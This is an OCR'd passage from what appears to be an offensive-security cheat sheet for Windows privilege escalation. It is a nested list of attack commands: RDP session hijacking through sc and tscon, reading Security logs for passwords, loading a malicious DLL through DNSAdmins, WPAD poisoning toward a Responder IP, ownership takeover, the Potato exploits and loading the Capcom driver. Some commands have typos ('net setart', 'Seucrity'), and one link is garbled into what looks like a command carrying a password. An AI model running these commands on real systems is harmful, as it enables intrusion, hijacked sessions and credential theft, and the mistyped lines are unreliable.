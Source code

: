         *   `net localgroup`           → `net localgroup [GROUP]`
        *   `tree /a /f C:\users` → SSH / Sensitive Files / Vulnerable Applications & Data Folders
    *   RDP Hijacking (Local Admin)
        *   `query user` → Active RDP SESSIONNAME
        *   `sc create sesshijack binpath= "cmd.exe /k tscon 1 /dest:[SESSNAME]"`
        *   `net setart sesshijack`
    *   Permission Bypass
        *   `icacls [PROTECTED_FILE/FOLDER]` → Check `R/W/F` Access
        *   Take Ownership → `icacls [PROTECTED_FILE/FOLDER] /grant [USER]:F`
    *   Groups
        *   `whoami /groups` 
        *   Event Log Readers
            *   `wevtutil qe Seucrity /rd:true /f:text | findstr "/user"`
            *   `wevtutil qe Seucrity /rd:true /f:text /u:[USER] /p:[PASS] | findstr "/user"`
            *   `Get-WinEvent -LogName security | where {$_.ID -eq 4688 -and $_.Properties[8].Vaue -like '*/user*'} | Select-Object @{name='CommandLine';expression={$_.Properties[8].Value}}`
        *   [DNSAdmins](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
            *   RCE
                *   `dnscmd /config /serverlevelplugindll [MALICIOUS_DLL]` OR `kdns.c` + `mimilib.dll`
                *   `sc [stop/start] dns`
            *   LLMNR
                *   `Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName [DC_HOST]`
                *   `Add-DnsServerResourceRecordA -Name wpad -ZoneName [DOM] -Computername [DC_HOST] -IPv4Address [RESPONDER_IP]`
        *   Hyper-V Administrators
            *   `.\hyperv-eop.ps1`   → Change `license.rtf` → Startable SYSTEM Service
            *   `sc stop [SERVICE]` → `takeown /F [SERVICE_EXE]` → Overwrite → `sc start [SERVICE]`
        *   Backup Operators
            *   `SeBackupPrivilege` Exploitation
            *   Enable Privilege
                *   `. .\SeBackupPrivilege[Utils+CmdLets].dll`
                *   `Set-SeBackupPrivilege`
        *   Print Operators
            *   `SeLoadDriverPrivilege` Exploitation
            *   OS < Win10 - 1803
        *   Server Operators
            *   Full Services Access 
            *   `SeBackupPrivilege`
            *   `SeRestorePrivilege`
        *   [Azure Admins](https://zflemingg1.gitbook.io/undergrad-tutorials/vulnhub-machines-oscp/untitled)
    *   Privileges
        *   `whoami /priv`
        *   Disabled Service Privilege   → [FullPowers](https://github.com/itm4n/FullPowers)
        *   Disabled User Privileges      → `EnableAllTokenPrivs.ps1` / `Set-TokenPrivilege.ps1`
        *   [Exploitation](https://github.com/gtworek/Priv2Admin)
            *   [SeImpersonate](https://github.com/BeichenDream/GodPotato) / [SeAssignPrimaryToken](https://github.com/antonioCoco/JuicyPotatoNG)
                *   `NT AUTHORITY\LocalService` / `NT AUTHORITY\NetworkService` 
                *   Churrasco
                *   JuicyPotato
                *   RoguePotato
                *   GodPotato / SweetPotato
                *   [PrintSpoofer](https://setuserinfo christopher.lewis 23 'Admin!23')
            *   [SeTakeOwnership](https://academy.hackthebox.com/module/67/section/642)
                *   Arbitrary File/Directory Control
                *   `takeown /f "[FILE/FOLDER]"`
                *   `icacls "[FILE/FOLDER]" /grant %username%:F`
            *   [SeLoadDriver](https://academy.hackthebox.com/module/67/section/605)
                *   [Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)        → `EoPLoadDriver.exe System\CurrentControlSet\Capcom capcom.sys`
                *   [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) → Modify CPP → VS2019 Compiling → Execute Malware